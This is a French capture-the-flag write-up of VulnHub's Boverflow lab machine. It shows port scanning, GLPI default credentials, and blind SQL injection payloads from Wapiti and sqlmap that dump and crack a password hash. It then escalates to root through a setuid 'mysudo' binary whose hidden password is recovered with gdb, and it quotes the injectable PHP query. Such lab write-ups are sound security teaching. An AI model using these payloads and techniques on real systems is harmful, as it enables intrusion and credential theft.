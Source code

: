 # Solution du CTF Boverflow de VulnHub

Slow Life
---------

[Boverflow](https://www.vulnhub.com/entry/boverflow-1,572/ "Boverflow") est un CTF créé par *foxlox*, auteur de différents CTFs proposé sur VulnHub.  

La description du CTF nous prévient que nos paquets pourraient être DROPés si on charge un peu trop la mule, c'est vraisemblablement dû à la présence d'un *fail2ban*.

Pour un scan de port ça semble passer. Le port 80 nous redirige directement sur une installation de [GLPI](http://glpi-project.org/ "GLPI").

```plain

Nmap scan report for 192.168.56.22
Host is up (0.00014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:0a:c8:cb:7e:d7:3a:f0:5b:3d:c3:ab:1e:dd:a9:f1 (RSA)
|   256 d4:f2:ee:8c:d0:61:74:31:df:6b:5b:e1:c9:de:21:ad (ECDSA)
|_  256 0a:be:d2:86:51:c0:e9:2c:92:ed:15:5e:3c:e1:14:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-title: GLPI - Authentication
|_Requested resource was http://192.168.56.22/glpi/
|_http-server-header: Apache/2.4.38 (Debian)

```

Ce site nous demande directement des identifiants, il ne semble pas y avoir d'accès publique.  

Une petite recherche sur Internet m'amène sur [ce forum](https://forum.glpi-project.org/viewtopic.php?id=23219 "ce forum") qui liste les comptes par défaut de ce logiciel. Tous ont un mot de passe par défaut qui correspond au nom d'utilisateur :

```plain

you have 4 differents profils
glpi/glpi (super-admin)
tech/tech
postonly/postonly (only for helpdesk)
normal/normal

```

J'ai testé rapidement et le compte *normal* fonctionne. Toutefois il ne semble pas assez privilégié pour ajouter des éléments via l'interface.  

Un exploit pour GLPI existe et [est détaillé dans cet article](https://offsec.almond.consulting/playing-with-gzip-rce-in-glpi.html "est détaillé dans cet article"). Il y a un code d'exploitation publié sur exploit-db et en le lisant on comprends qu'il créé une entrée via la secion *Wifi Networks.*  

Notre compte actuel ne permet donc pas cette exploitation.  

Timmy The Turtle
----------------

Via *feroxbuster* je trouve une mire de login à l'adresse [http://192.168.56.22/admin/](http://192.168.56.22/admin/ "http://192.168.56.22/admin/").  

On peut lancer Wapiti dessus en ne sélectionnant que le ou les modules les plus à même de remonter quelque chose d'intéressant afin d'éviter le ban sur la quantité de requêtes :

```plain
$ wapiti -u http://192.168.56.24/admin/ --color -m timesql -v2
[*] Lancement du module timesql
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.22/admin/verify.php via une injection dans le paramètre username
Evil request:
	POST /admin/verify.php HTTP/1.1
	Host: 192.168.56.22
	Referer: http://192.168.56.22/admin/
	Content-Type: application/x-www-form-urlencoded

	username=%27%20or%20sleep%287%29%231&password=Letm3in_
---
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.22/admin/verify.php via une injection dans le paramètre password
Evil request:
	POST /admin/verify.php HTTP/1.1
	Host: 192.168.56.22
	Referer: http://192.168.56.22/admin/
	Content-Type: application/x-www-form-urlencoded

	username=alice&password=%27%20or%20sleep%287%29%231
---

```

Nice ! On peut enchainer avec SQLmap mais en mode *vas-y molo*. Ça passe en utilisant l'option *delay* mais SQLmap ne la respecte pas vraiment puisqu'il faudrait aussi limiter le parallélisme à un seul thread pour que ce soit effectif.

```plain

$ python sqlmap.py -u http://192.168.56.24/admin/verify.php --data "username=admin&password=password" --dbms mysql --risk 3 --level 5 --delay 5

sqlmap identified the following injection point(s) with a total of 1328 HTTP(s) requests:
---
Parameter: username (POST)
	Type: error-based
	Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
	Payload: username=admin'||(SELECT 0x43724275 FROM DUAL WHERE 6495=6495 AND (SELECT 4399 FROM(SELECT COUNT(*),CONCAT(0x716b707a71,(SELECT (ELT(4399=4399,1))),0x71766a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&password=password

	Type: time-based blind
	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
	Payload: username=admin'||(SELECT 0x57544e49 FROM DUAL WHERE 9937=9937 AND (SELECT 9840 FROM (SELECT(SLEEP(5)))WtOD))||'&password=password
---

```

On trouve alors différentes DBs et la courante dispose d'un hash :

```plain

available databases [3]:
[*] basedb
[*] glpi
[*] information_schema

```

```plain

Database: basedb
Table: passwd
[1 entry]
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
| 1  | fox      | be073f86255a6d45d4392ca8fc226e73 |
+----+----------+----------------------------------+

```

Le hash est vite cassé via CrackStation (cleartext : *moanapozzi*).  

J'ai aussi extrais les hashs des users GLPI mais impossible de casser le compte privilégié *glpi*...

Lazy Fox
--------

Les identifiants de la base de donnés nous fournissent finalement un accès via SSH.

```plain

fox@boverflow:~$ cat user.txt 
a7de9153594943377ea6e508f5561a67

```

On trouve dans le dossier de l'utilisateur un binaire *mysudo* et son code source associé que voici :

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>

char cmd[100];

void execute()
{
	printf("Command output:\n");
	if (cmd) system(cmd);
}

void echo()
{
	printf("\nWelcome to mysudo tool, you can run a command on the system as root.\n\ndon't try brute force, it's impossible!\n\n");
		setuid(0);
	char username[20],password[20];
	printf("Command: ");
	scanf("%s", cmd);
	printf("Username: ");
	scanf("%s", username);
	printf("Password: ");
	scanf("%s", password);
	if ((!strcmp(username,"username"))&&(!strcmp(password,"password")))
	 execute(); 
	else
	 printf("Wrong username or password!\n");
}

int main()
{
	echo();
	return 0;
}

```

Evidemment si on effectue un strings sur le fichier on obtient des chaines sensiblement différentes (le mot de passe attendu a été changé).  

On peut aussi débugger le binaire avec gdb, désassembler la méthode *echo* et placer les breakpoints sur les appels à *strcmp*.  

Une inspection des registres *rdi* et *rsi* permettront ainsi de voir les chaines comparées.

```plain

Command output:
Welcome to mysudo tool, you can run a command on the system as root.
don't try brute force, it's impossible!
Command: 
Username: 
Password: 
username
passworaaaaaaaaaaaaaa
Wrong username or password!

```

On trouve la chaine *passworaaaaaaaaaaaaaa* qui n'est pas dans le code C.

```plain

fox@boverflow:~$ ./mysudo 

Welcome to mysudo tool, you can run a command on the system as root.

don't try brute force, it's impossible!

Command: bash
Username: username
Password: passworaaaaaaaaaaaaaa
Command output:
root@boverflow:~# id
uid=0(root) gid=1000(fox) groups=1000(fox),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
root@boverflow:~# cd /root
root@boverflow:/root# ls
root.txt
root@boverflow:/root# cat root.txt 
9057703b55b8943d91cad17ac3c4920f

```

Et voilà !  

Un petit coup d'oeil au fichier verify.php nous permet de voir comment était formé la requête SQL :  

```php
$q="select count(*) from passwd where username='".$_POST['username']."' and password='".$_POST['password']."';";
```



*Published January 11 2022 at 20 06*